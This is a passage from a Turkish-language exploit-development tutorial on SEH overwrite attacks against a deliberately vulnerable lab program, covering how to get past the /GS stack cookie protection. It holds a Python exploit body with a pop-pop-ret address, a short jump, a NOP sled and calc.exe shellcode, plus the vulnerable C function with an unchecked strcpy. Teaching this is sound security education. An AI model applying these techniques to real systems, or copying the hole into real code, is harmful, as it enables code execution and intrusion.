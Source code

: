 ![](/files/gsbypasspopr32.png)

Görüldüğü üzere program *535313C8* adresinde `pop pop ret` üçlüsünü buldu. Bu değerler kaynak koda bakarsanız eğer inline assembly ile eklenen değerler. Bu değerleri exploit yazmak için kullanıyoruz. O halde exploitmizin gövdesi şu şekilde olacak demektir:

    cokertkaarsim = "A" * 520
    cokertkaarsim += "\xeb\x06\x90\x90"					   #6 byte jump
    cokertkaarsim += struct.pack('<I', 0x535313c8)         #pop pop ret 
    cokertkaarsim += "\x90" * 24 
	cokertkaarsim += "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"    #calc.exe shellcode
	cokertkaarsim += "\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
	cokertkaarsim += "\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
	cokertkaarsim += "\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
	cokertkaarsim += "\x57\x78\x01\xc2\x8b\x7a\x20\x01"
	cokertkaarsim += "\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
	cokertkaarsim += "\x45\x81\x3e\x43\x72\x65\x61\x75"
	cokertkaarsim += "\xf2\x81\x7e\x08\x6f\x63\x65\x73"
	cokertkaarsim += "\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
	cokertkaarsim += "\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
	cokertkaarsim += "\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
	cokertkaarsim += "\xb1\xff\x53\xe2\xfd\x68\x63\x61"
	cokertkaarsim += "\x6c\x63\x89\xe2\x52\x52\x53\x53"
	cokertkaarsim += "\x53\x53\x53\x53\x52\x53\xff\xd7"

Exploiti çalıştırdıktan sonra hesap makinesinin çalışacağını görebilirsiniz. Immunity debugger üzerinde pop pop ret adresinize breakpoint koyarsanız ve ardından kodu incelerseniz olanları daha detaylı görebilirsiz. Örneğin aşağıdaki şekilde `pop pop ret` üçlüsüne gelmiş durumdayız, iki `pop` instructionu ardından `ret` ile stackden bizim 06 byte jump kodumuzu EIP'e alarak shellcodedan devam edecek.

![](/files/gsbypassimmupopop.png)

### Stack Cookie Korumasının SEH ile Atlatılması
Pekala, şimdi exploiti de yazdık. Şimdi programı tekrar derliyoruz, fakat bu defa **/GS-** seçeneğini cl'den kaldırıyoruz. Bu sayede stack cookie koruması aktif olacak. Ardından az önce kullandığımız exploit'i tekrardan çalıştırıyoruz. Çalıştırdık mı ? Çalışmadı. Evet, bir şeyler değişti demek ki. Şimdi bunun üzerine konuşalım biraz da. Ardından bu exploiti **/GS** korumasını atlatacak şekilde düzenleyelim. Şimdi bu konuda söyleyeceklerim sizi biraz şaşırtabilir, lakin bunca şey okudunuz fakat bu korumayı geçmek için aslında yapılması gereken şey çok basit. Yapmamız gereken tek şey exploiti yeniden yazmak. Değişen adresleri tekrar düzeltmek, bu kadar! Fakat, benim için asıl önemli olan bunun nasıl olduğunu size anlatabilmek. Yani bu yazı aslında çok kısa bir şekilde de bu olayı anlatabilirdi. İki exploit koyup karşılaştırın diyerek de bu açığı anlatabilirdim, fakat o zaman biraz ezberci sisteme uyuyoruz. Ben mantığını tam olarak anlatabilmeyi umuyorum.

Neyse, şimdi bu nasıl böyle oldu ? Aslında olan şey sahiden basit bir mantık üzerine kurulu. Öncelikle programın kaynak kodunu hatırlayalım:

	void seh(char *recvbuf) {
		char sendBuf[512];
		_try 
		{
			strcpy(sendBuf,recvbuf);	
			if(sendBuf[0] == '\x41') {
				   //Var olmayan adrese yazmaya calisarak
				   //bi exception olusturuluyor
				   int* p = 0x00000000;   
				   *p = 10;
			}	
		} 
		_except (EXCEPTION_EXECUTE_HANDLER) 
		{
			printf("Inside Exception Handler");
		}	
